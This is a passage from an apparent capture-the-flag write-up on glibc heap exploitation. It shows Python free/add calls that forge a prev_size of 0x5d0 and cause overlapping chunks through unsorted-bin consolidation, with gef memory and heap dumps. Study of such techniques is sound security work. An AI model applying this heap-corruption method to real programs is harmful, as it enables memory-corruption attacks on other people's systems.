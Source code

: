 ```py
free(3)
add(0x18,p64(0x00) *2 + p64(0x5d0),0)
```

The chunk layout in the memory will be:-

```asm
gef➤  x/40xg 0x0000555df391c810
0x555df391c810:	0x0000000000000000	0x0000000000000000
0x555df391c820:	0x00000000000005d0	0x0000000000000500
```

So, now when we will free the `chunk[0]` and `chunk[4]`:-

```py
free(0)
free(4)
```

Running so:-

```asm
gef➤  heap bins unsorted
────────────────────────────────── Unsorted Bin for arena 'main_arena' ──────────────────────────────────
[+] unsorted_bins[0]: fw=0x55dd71e62250, bk=0x55dd71e62250
 →   Chunk(addr=0x55dd71e62260, size=0xad0, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
gef➤  p/x 0x500 + 0x5d0
$4 = 0xad0
gef➤  
```

Now, the total size of the chunk belongs to the `unsorted` bin is `0xad0` is the summation of the `0x500` and the size we gave it as the `0x5d0`, hence `0xad0`. But at the same time when we see the whole heap layout, it turns out to be like this:-

```asm
gef➤  heap chunks
Chunk(addr=0x55dd71e62010, size=0x250, flags=PREV_INUSE)
    [0x000055dd71e62010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x55dd71e62260, size=0xad0, flags=PREV_INUSE)
    [0x000055dd71e62260     a0 6c 50 9e d4 7f 00 00 a0 6c 50 9e d4 7f 00 00    .lP......lP.....]
Chunk(addr=0x55dd71e62d30, size=0x20, flags=)
    [0x000055dd71e62d30     61 61 61 61 61 61 61 61 00 00 00 00 00 00 00 00    aaaaaaaa........]
Chunk(addr=0x55dd71e62d50, size=0x202c0, flags=PREV_INUSE)  ←  top chunk
gef➤  

```

If you pay attention, we had almost 6 chunks allocated in which we `free`'d 2 of them, that leaves the 4 of them allocated, but as the `gef` output we can definitely see only two chunks here referenced, first is the one we `free`'d and went into the unsorted bin and other one is the last chunk we allocated to prevent the `top_chunk` consolidation. But when we look at the gloabal array which keeps the track of the allocated chunks,

```asm
gef➤  x/30xg 0x55dd713f3050
0x55dd713f3050:	0x0000000000000000	0x0000000000000000
0x55dd713f3060:	0x0000000000000000	0x000055dd71e62760
0x55dd713f3070:	0x000055dd71e627d0	0x000055dd71e62810
0x55dd713f3080:	0x0000000000000000	0x000055dd71e62d30
```
